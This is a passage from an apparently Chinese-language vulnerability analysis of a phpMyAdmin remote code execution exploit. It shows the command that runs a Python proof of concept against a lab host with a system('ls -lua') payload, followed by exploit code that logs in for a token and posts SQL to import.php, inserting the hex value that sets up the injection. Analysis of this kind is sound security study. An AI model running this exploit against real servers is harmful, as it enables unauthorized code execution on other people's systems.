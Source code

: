 运行命令：

```shell
test.py -u root --pwd="root" http://192.168.79.128:32769/ -c "system('ls -lua');"
```

运行效果：

![image-20230202194526421](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230202194526421.png)

## 漏洞分析

从上面的`POC`中可以看出，代码分别向目标请求了三次

第一次是登录请求，并获取`token`

```python
# get_token
resp = s.post(url_to_pma + "/?lang=en", dict(
     pma_username=uname,
     pma_password=upass
))
```

![image-20230202214907807](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230202214907807.png)

第二次请求`/import.php`，创建表

```python
sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
      ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
      INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
      '''.format(table)
······
if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
```

![image-20230202215331206](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230202215331206.png)
